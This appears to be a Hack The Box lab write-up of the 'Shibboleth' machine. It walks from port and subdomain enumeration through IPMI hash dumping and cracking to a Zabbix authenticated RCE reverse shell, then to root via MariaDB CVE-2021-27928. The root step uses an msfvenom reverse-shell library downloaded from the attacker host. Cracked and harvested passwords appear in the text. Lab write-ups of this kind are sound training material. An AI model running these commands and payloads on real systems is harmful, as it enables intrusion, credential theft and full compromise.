


# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 10.129.71.63

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-01 11:23 GMT
Warning: 10.129.71.63 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.71.63
Host is up (0.17s latency).
Not shown: 65448 closed tcp ports (conn-refused), 86 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 695.64 seconds
"
```

```bash
nmap -p 80 -sC -sV 10.129.71.63

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-01 11:35 GMT
Nmap scan report for 10.129.71.63
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.28 seconds
"
```

### Update Hostname

```bash
sudo vi /etc/hosts

"
10.129.71.63 shibboleth.htb
"
```

## **View Website**


## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://shibboleth.htb/ -w /usr/share/wordlists/dirb/common.txt -z

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shibboleth.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/11/01 11:38:04 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/assets               (Status: 301) [Size: 317] [--> http://shibboleth.htb/assets/]
/forms                (Status: 301) [Size: 316] [--> http://shibboleth.htb/forms/] 
/index.html           (Status: 200) [Size: 59474]                                  
/server-status        (Status: 403) [Size: 279]                                    
                                                                                   
===============================================================
2023/11/01 11:39:25 Finished
===============================================================
"
```

## Subdomain Enumeration (Run ffuf)

```bash
ffuf -u http://shibboleth.htb -H 'Host:FUZZ.shibboleth.htb' -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18

`
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://shibboleth.htb
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.shibboleth.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 18
________________________________________________

monitor                 [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 42ms]
monitoring              [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 40ms]
zabbix                  [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 31ms]
:: Progress: [19983/19983] :: Job [1/1] :: 1817 req/sec :: Duration: [0:00:24] :: Errors: 0 ::
`
```

We found some subdomains! Let’s add to our hostname file and view the website.

### Update Hostname

```bash
sudo vi /etc/hosts

"
10.129.67.80 shibboleth.htb monitor.shibboleth.htb monitoring.shibboleth.htb zabbix.shibboleth.htb
"
```

## Viewing Subdomain



After enumerating all the subdomains, all the link routes to the same result which is the zabbix login page

# Exploitation

## Searching for Zabbix Exploits

### Enumerating Zabbix Version from the Source Code



Here we can see the website is using **version 5.0**

### Searching for Exploit

```bash
searchsploit zabbix

"
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Zabbix - (Authenticated) Remote Command Execution (Metasploit)                                                                      | linux/remote/29321.rb
Zabbix 1.1.2 - Multiple Remote Code Execution Vulnerabilities                                                                       | linux/dos/28775.pl
Zabbix 1.1.4/1.4.2 - 'daemon_start' Local Privilege Escalation                                                                      | linux/local/30839.c
Zabbix 1.1x/1.4.x - File Checksum Request Denial of Service                                                                         | unix/dos/31403.txt
Zabbix 1.6.2 Frontend - Multiple Vulnerabilities                                                                                    | php/webapps/8140.txt
Zabbix 1.8.1 - SQL Injection                                                                                                        | php/webapps/12435.txt
Zabbix 1.8.4 - 'popup.php' SQL Injection                                                                                            | php/webapps/18155.txt
Zabbix 2.0 < 3.0.3 - SQL Injection                                                                                                  | php/webapps/40353.py
Zabbix 2.0.1 - Session Extractor                                                                                                    | php/webapps/20087.py
Zabbix 2.0.5 - Cleartext ldap_bind_Password Password Disclosure (Metasploit)                                                        | php/webapps/36157.rb
Zabbix 2.0.8 - SQL Injection / Remote Code Execution (Metasploit)                                                                   | unix/webapps/28972.rb
Zabbix 2.2 < 3.0.3 - API JSON-RPC Remote Code Execution                                                                             | php/webapps/39937.py
Zabbix 2.2.x/3.0.x - SQL Injection                                                                                                  | php/webapps/40237.txt
Zabbix 3.4.7 - Stored XSS                                                                                                           | php/webapps/49729.txt
Zabbix 4.2 - Authentication Bypass                                                                                                  | php/webapps/47467.txt
Zabbix 4.4 - Authentication Bypass                                                                                                  | php/webapps/47474.pl
Zabbix 5.0.0 - Stored XSS via URL Widget Iframe                                                                                     | php/webapps/49202.txt
Zabbix 5.0.17 - Remote Code Execution (RCE) (Authenticated)                                                                         | php/webapps/50816.py
Zabbix Agent - 'net.tcp.listen' Command Injection (Metasploit)                                                                      | freebsd/remote/16918.rb
Zabbix Agent 3.0.1 - 'mysql.size' Shell Command Injection                                                                           | linux/local/39769.txt
Zabbix Agent < 1.6.7 - Remote Bypass                                                                                                | multiple/webapps/10431.txt
Zabbix Server - Arbitrary Command Execution (Metasploit)                                                                            | linux/remote/20796.rb
Zabbix Server - Multiple Vulnerabilities                                                                                            | multiple/webapps/10432.txt
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
"
```

Here the only available exploit is `Remote Code Execution (RCE) (Authenticated)`. But we need a credential to get into the panel.

```bash
searchsploit -x 50816

"
  Exploit: Zabbix 5.0.17 - Remote Code Execution (RCE) (Authenticated)
      URL: https://www.exploit-db.com/exploits/50816
     Path: /usr/share/exploitdb/exploits/php/webapps/50816.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable, with very long lines
"
```

## IPMI Enumeration

### Further Port Enumeration through UDP Scanning

```bash
sudo nmap -p- -sU --min-rate 6000 10.129.67.80

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-06 14:40 GMT
Warning: 10.129.67.80 giving up on port because retransmission cap hit (10).
Nmap scan report for shibboleth.htb (10.129.67.80)
Host is up (0.11s latency).
Not shown: 65143 open|filtered udp ports (no-response), 391 closed udp ports (port-unreach)
PORT    STATE SERVICE
623/udp open  asf-rmcp

Nmap done: 1 IP address (1 host up) scanned in 385.59 seconds
"
```

[623/UDP/TCP - IPMI](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi)

### Dumping Hashes

[](https://github.com/tijldeneut/Security/blob/master/IPMI-Scan-Hashes.py)

```bash
./IPMI-Scan-Hashes.py

"

    [*****************************************************************************]
                          --- IPMI Hash Dumper ---
    This script will try multiple users and without authentication dump hashes.
    Just run it without arguments, or provide arguments of your choice
    ______________________/-> Created By Tijl Deneut(c) <-\_______________________
    [*****************************************************************************]
    
Please enter target IP address [192.168.1.1]: 10.129.67.80
[+] IP 10.129.67.80 has RMCP+ running.
[+] Got hash for user 'admin' (10.129.67.80)
[+] Hash (John format):
10.129.67.80 admin:$rakp$bc60342704020000148c1c3ba582769289f9d9b232f0adf49c038233722f5425952702caac24eea0a123456789abcdefa123456789abcdef140561646d696e$c93188a47e380033a6e735e88fa3b2236c59914f
[+] Hash (Hashcat format):
bc60342704020000148c1c3ba582769289f9d9b232f0adf49c038233722f5425952702caac24eea0a123456789abcdefa123456789abcdef140561646d696e:c93188a47e380033a6e735e88fa3b2236c59914f
[+] Got hash for user 'root' (10.129.67.80)
[+] Hash (John format):
10.129.67.80 root:$rakp$94b69eb584020000049d89dd84dc5aa119f6973cc6d1ad762dd79173c3ecfc085d6b06de61b2e29ea123456789abcdefa123456789abcdef1404726f6f74$b90b16672a2f915c9766a6afb19563e8d3328aa5
[+] Hash (Hashcat format):
94b69eb584020000049d89dd84dc5aa119f6973cc6d1ad762dd79173c3ecfc085d6b06de61b2e29ea123456789abcdefa123456789abcdef1404726f6f74:b90b16672a2f915c9766a6afb19563e8d3328aa5
[+] Got hash for user 'ADMIN' (10.129.67.80)
[+] Hash (John format):
10.129.67.80 ADMIN:$rakp$47d29750040300003ad6600be2bd0d4f131bc5cc1a7e5f06406781d59b38677cad91b00e73b47c9da123456789abcdefa123456789abcdef140541444d494e$489936a7a5d60c64a7744a288cbc97b0020b346e
[+] Hash (Hashcat format):
47d29750040300003ad6600be2bd0d4f131bc5cc1a7e5f06406781d59b38677cad91b00e73b47c9da123456789abcdefa123456789abcdef140541444d494e:489936a7a5d60c64a7744a288cbc97b0020b346e
[+] Got hash for user 'Admin' (10.129.67.80)
[+] Hash (John format):
10.129.67.80 Admin:$rakp$e12bc59284030000bbcf47f6b87168ecff2bc4c902616fe8460e5bac37f709aeece280158234e3a8a123456789abcdefa123456789abcdef140541646d696e$6cdb2fd007676b5c6f9eaedffbdadb26bbb20c2b
[+] Hash (Hashcat format):
e12bc59284030000bbcf47f6b87168ecff2bc4c902616fe8460e5bac37f709aeece280158234e3a8a123456789abcdefa123456789abcdef140541646d696e:6cdb2fd007676b5c6f9eaedffbdadb26bbb20c2b
[+] Got hash for user 'Administrator' (10.129.67.80)
[+] Hash (John format):
10.129.67.80 Administrator:$rakp$f2ca381204040000548655d2f853302e994126111a1d8504cb925f6a7e3b75c7b250398332cacdd0a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$47ae603e227b98026f43bf6a59aebff37b9a28b9
[+] Hash (Hashcat format):
f2ca381204040000548655d2f853302e994126111a1d8504cb925f6a7e3b75c7b250398332cacdd0a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:47ae603e227b98026f43bf6a59aebff37b9a28b9
[+] Got hash for user 'USERID' (10.129.67.80)
[+] Hash (John format):
10.129.67.80 USERID:$rakp$3ebb835e86040000fb66933e2a041e9b445c1ec4007b6376b8a4e725932526bfa50753b4f50fdcb1a123456789abcdefa123456789abcdef1406555345524944$892c1bb9106a13e1ce2c73ad3c330c456899b834
[+] Hash (Hashcat format):
3ebb835e86040000fb66933e2a041e9b445c1ec4007b6376b8a4e725932526bfa50753b4f50fdcb1a123456789abcdefa123456789abcdef1406555345524944:892c1bb9106a13e1ce2c73ad3c330c456899b834
[+] Got hash for user 'guest' (10.129.67.80)
[+] Hash (John format):
10.129.67.80 guest:$rakp$13d0b9c706050000bbbbde67d3a20b6fe98c71485d26de7e5d57d2c1516e9865916bb937a43517cba123456789abcdefa123456789abcdef14056775657374$1701ae758827542921931bd1fe2a49a6a433382e
[+] Hash (Hashcat format):
13d0b9c706050000bbbbde67d3a20b6fe98c71485d26de7e5d57d2c1516e9865916bb937a43517cba123456789abcdefa123456789abcdef14056775657374:1701ae758827542921931bd1fe2a49a6a433382e
[+] Got hash for user 'vmware' (10.129.67.80)
[+] Hash (John format):
10.129.67.80 vmware:$rakp$fa0e2217860500009fd5c2e2a87f2af122928e6a51485d33192469e26d71091c24e9f229d9881bc5a123456789abcdefa123456789abcdef1406766d77617265$d67fc5bc3e04b35225a7e0007f88256c63da8c14
[+] Hash (Hashcat format):
fa0e2217860500009fd5c2e2a87f2af122928e6a51485d33192469e26d71091c24e9f229d9881bc5a123456789abcdefa123456789abcdef1406766d77617265:d67fc5bc3e04b35225a7e0007f88256c63da8c14
[+] Got hash for user 'ups' (10.129.67.80)
[+] Hash (John format):
10.129.67.80 ups:$rakp$7755a0fc06060000183f006dc99b9983a15647a98e922332578c7db6c959a5ca5cbecab17dee60fea123456789abcdefa123456789abcdef1403757073$ef98e7c944cfc25edea2d58907614cfb224a2df9
[+] Hash (Hashcat format):
7755a0fc06060000183f006dc99b9983a15647a98e922332578c7db6c959a5ca5cbecab17dee60fea123456789abcdefa123456789abcdef1403757073:ef98e7c944cfc25edea2d58907614cfb224a2df9
"
```

### Cracking the Hash

Save the hash to `administrator.hash` file.

```bash
echo "f2ca381204040000548655d2f853302e994126111a1d8504cb925f6a7e3b75c7b250398332cacdd0a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:47ae603e227b98026f43bf6a59aebff37b9a28b9" > administrator.hash
```

Find the hash mode from the website.

[example_hashes    [hashcat wiki]](https://hashcat.net/wiki/doku.php?id=example_hashes)

The IPMI Hash number is `7300`

Start cracking the hash

```bash
hashcat -m 7300 administrator.hash /usr/share/wordlists/rockyou.txt --force -O

"
hashcat (v6.1.1) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-DO-Regular, 5841/5905 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

f2ca381204040000548655d2f853302e994126111a1d8504cb925f6a7e3b75c7b250398332cacdd0a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:47ae603e227b98026f43bf6a59aebff37b9a28b9:ilovepumkinpie1
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: IPMI2 RAKP HMAC-SHA1
Hash.Target......: f2ca381204040000548655d2f853302e994126111a1d8504cb9...9a28b9
Time.Started.....: Mon Nov  6 14:36:29 2023, (8 secs)
Time.Estimated...: Mon Nov  6 14:36:37 2023, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   971.7 kH/s (2.28ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7394652/14344385 (51.55%)
Rejected.........: 1372/7394652 (0.02%)
Restore.Point....: 7390555/14344385 (51.52%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: ilovestrider -> iloveponys12345

Started: Mon Nov  6 14:35:14 2023
Stopped: Mon Nov  6 14:36:39 2023
"
```

### Credentials

```bash
username: administrator
password: ilovepumkinpie1
```

## Listen to Reverse Shell and Exploit

```bash
python3 50816.py http://monitor.shibboleth.htb Administrator ilovepumkinpie1 10.10.14.76 4444

"
[*] this exploit is tested against Zabbix 5.0.17 only
[*] can reach the author @ https://hussienmisbah.github.io/
[+] the payload has been Uploaded Successfully
[+] you should find it at http://monitor.shibboleth.htb/items.php?form=update&hostid=10084&itemid=33617
[+] set the listener at 4444 please...
[?] note : it takes up to +1 min so be patient :)
[+] got a shell ? [y]es/[N]o:
"
```

```bash
nc -lvnp 4444

`
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.67.80.
Ncat: Connection from 10.129.67.80:40432.
sh: 0: can't access tty; job control turned off
$ python3 --version
Python 3.8.10
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
zabbix@shibboleth:/$
`
```

# Privilege Escalation

## From zabbix to ipmi-svc

### SUing to ipmi-svc using the credentials obtained

```bash
su ipmi-svc

"
Password: ilovepumkinpie1

ipmi-svc@shibboleth:/home$
"
```

## From ipmi-svc to root

### Enumerating network connection

```bash
netstat -tnlp

"
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:10050           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:10051           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::10050                :::*                    LISTEN      -                   
tcp6       0      0 :::10051                :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -
"
```

Here it seems like mysql is running at port 3306.

### Checking if mysql is running by checking process

```bash
ps auwwx

"
root        1260  0.8  3.1 1728316 127532 ?      Sl   13:28   0:16 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/x86_64-linux-gnu/mariadb19/plugin --user=root --skip-log-error --pid-file=/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock
"
```

### Enumerating DB inside zabbix folder

`ipmi-svc@shibboleth:/etc/zabbix$ cat zabbix_server.conf`

```yaml
### Option: DBUser
#	Database user.
#
# Mandatory: no
# Default:
# DBUser=

DBUser=zabbix

### Option: DBPassword
#	Database password.
#	Comment this line if no password is used.
#
# Mandatory: no
# Default:
DBPassword=bloooarskybluh
```

```yaml
username: zabbix
password: bloooarskybluh
```

### Logging into MariaDB

```bash
mysql -u zabbix -pbloooarskybluh

"
mysql -u zabbix -pbloooarskybluh
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 404
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
"
```

> Tip: you can use the command `\! /bin/bash` in MariaDB client to do some shell operation and come back to MariaDB shell using the command `exit` once you are done with the shell operation!
> 

### MariaDB RCE (CVE-2021-27928)

[https://github.com/Al1ex/CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928)

Generate Reverse Shell in Shared Object form

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<attacker ip> LPORT=4443 -f elf-so -o reverse.so
```

Save the reverse shell inside the `/tmp` folder

```bash
wget http://<attacker ip>:8000/reverse.so

"
ipmi-svc@shibboleth:/tmp$ wget http://10.10.14.76:8000/reverse.so
"
```

### Listen to Reverse Shell and Exploit

```bash
SET GLOBAL wsrep_provider="/tmp/reverse.so";

`
MariaDB [(none)]> SET GLOBAL wsrep_provider="/tmp/reverse.so";
SET GLOBAL wsrep_provider="/tmp/reverse.so";
ERROR 2006 (HY000): MySQL server has gone away
No connection. Trying to reconnect...
Connection id:    18
Current database: *** NONE ***

ERROR 2013 (HY000): Lost connection to MySQL server during query
`
```

```bash
nc -lvnp 4443

`
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4443
Ncat: Listening on 0.0.0.0:4443
Ncat: Connection from 10.129.139.192.
Ncat: Connection from 10.129.139.192:37068.
whoami
root
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@shibboleth:/var/lib/mysql#
`
```

# Reference

- [https://www.hackthebox.com/api/v4/machine/writeup/410](https://www.hackthebox.com/api/v4/machine/writeup/410)
- [https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi)
- [https://github.com/Al1ex/CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928)